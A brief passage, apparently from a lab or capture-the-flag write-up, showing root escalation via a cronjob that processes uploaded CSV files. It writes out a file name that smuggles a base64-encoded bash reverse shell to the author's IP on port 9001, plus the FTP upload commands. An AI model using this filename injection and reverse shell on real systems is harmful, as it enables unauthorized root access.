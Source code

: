 Creating a CSV file that begins with a pipe:
```
touch -- '|echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85MDAxICAwPiYxICAK|base64 -d|bash;.csv'
```

Uploading the file onto the FTP service:
```
ftp> cd versions

mput |echo\ YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85MDAxICAwPiYxICAK|base64\ -d|bash;.csv
```

The cronjob runs every minute and after that, the listener on my IP and port 9001 starts a reverse shell as root!
